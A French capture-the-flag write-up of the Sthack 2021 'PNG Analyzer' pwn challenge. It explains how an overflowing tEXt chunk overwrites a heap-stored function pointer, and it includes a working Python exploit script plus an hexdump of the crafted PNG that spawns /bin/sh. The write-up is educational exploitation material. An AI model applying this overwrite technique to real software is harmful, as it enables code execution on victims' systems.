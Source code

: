 ```yaml
---
title: PWN - PNG Analyzer
category: Sthack2021
author: vaelio
tags:
- sthack2021
- pwn
- ctf
description: "Writeup Sthack 2021 - PNG Analyzer - PWN"
---
```

Introduction
===
Pour ce challenge il faut d'abord réussir à télécharger le binaire à exploiter. 
Lorsqu'on se connecte à l'index du site on peut remarquer que le site tente de charger http://dev.img.local/troll.png. 
Or ce nom de domaine ne résouds pas. C'est notre hint. Ici on va simplement éditer notre `/etc/hosts` afin de faire pointer localement le nom de domaine vers l'ip originale.
A partir de là, dans le dossier upload, on peut trouver le binaire `png_analyzer`

Voila les info du programme:

```
~ 
❯ file ./Downloads/png_analyzer
./Downloads/png_analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=94ea393d939b2f7e83e650bbe1206da5a834e15e, for GNU/Linux 3.2.0, not stripped

~ 
❯ checksec ./Downloads/png_analyzer
[*] '/home/user/Downloads/png_analyzer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

TL;DR
===
En résumé le programme va prendre en argument un fichier à analyser, vérfier que le fichier est bien un PNG, va ensuite analyser chaque bloc de donnée du PNG et affichera les meta donnée de tous les blocs de type `tEXt` avant de finir par exécuter la fonction `do_nothing` avec en paramètre le titre du bloc.

Par exemple, si nous avons dans notre PNG un bloc de type `tEXt` dont le titre est `Comment` alors le programme exécutera `do_nothing("Comment")`. La preuve en image:

![]({{site.url}}/static/upload_4a219d9ebbc5642622f99991aeacddb1.png)

Exploitation
===
Lorsqu'on reverse le binaire une chose nous saute aux yeux, le pointer vers `do_nothing` est stocké pour chaque bloc d'information dans le chunk qui lui est associé dans la `heap`.

![]({{site.url}}/static/upload_14379e33db0d981f8667232307814ae2.png)

Voici, en pseudocode, la fonction `parse_chunk` qui parse les fameux bloc PNG:


![]({{site.url}}/static/upload_5a14c7c981fb9ec115bd91481ce42059.png)

On peut remarquer que l'écriture du pointer vers `do_nothing` se fait avant le `memcpy`. 

On constate également que le programme va chercher le pointer vers `do_nothing` avant de l'exécuter:
![]({{site.url}}/static/upload_8ae580cbfd8fc90299c540388bbf84e2.png)

**Bingo !** Il suffit donc que notre chunk puisse réécrire ce pointer.

En conclusion, il faut donc:
- que notre fichier soit un PNG
- que notre fichier contienne une donnée EXIF de type `tEXt` (par exemple Comment)
- que la valeur de cette donnée réécrive le pointeur vers `do_nothing`
- que rien ne crash :D

Voilà rapidement un petit script assez moche permettant d'obtenir un fichier qui nous donnera un shell local:

```python
#!/bin/env python3

from struct import pack
from os import system
import png


def mkImg():
    i = []
    for x in range(21):
        i.append([0,0,0,0])
    png.from_array(i, 'L').save("/tmp/test")
    buf = 'A'*0x1ffc + pack('<Q', 0x401160)
    with open('/tmp/buf', "w") as fd:
        fd.write(buf)
    system("exiftool -Comment=$(cat /tmp/buf) /tmp/test")
    with open("/tmp/test", "rb") as fd:
        content = fd.read()
    return content


def w(data):
    with open("/tmp/f", "wb") as fd:
        fd.write(data)



def main():
    data = mkImg()
    data = data[:41] + "/bin/sh\x00" + data[49:]
    w(data)



if __name__ == '__main__':
    main()


```


En bonus, un petit hexdump du fichier final et un exiftool
```
~
❯ hexdump -C /tmp/f
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 04 00 00 00 15  08 00 00 00 00 44 10 10  |.............D..|
00000020  9c 00 00 20 07 74 45 58  74 2f 62 69 6e 2f 73 68  |... .tEXt/bin/sh|
00000030  00 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |.AAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00002020  41 41 41 41 41 41 41 41  41 41 41 41 41 60 11 40  |AAAAAAAAAAAAA`.@|
00002030  76 b8 6c 27 00 00 00 0c  49 44 41 54 78 9c 63 60  |v.l'....IDATx.c`|
00002040  a0 13 00 00 00 69 00 01  11 3e ed a7 00 00 00 00  |.....i...>......|
00002050  49 45 4e 44 ae 42 60 82                           |IEND.B`.|
00002058
```

```
~
❯ exiftool /tmp/f
ExifTool Version Number         : 12.30
File Name                       : f
Directory                       : /tmp
File Size                       : 8.1 KiB
File Modification Date/Time     : 2021:10:18 12:29:49+02:00
File Access Date/Time           : 2021:10:18 17:04:07+02:00
File Inode Change Date/Time     : 2021:10:18 12:29:49+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 4
Image Height                    : 21
Bit Depth                       : 8
Color Type                      : Grayscale
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Binsh                           : AAAA[REDACTED]AAAA`.@
Image Size                      : 4x21
Megapixels                      : 0.000084
```

Conclusion
===
Un petit challenge plutot simple mais intéressant :+1: 
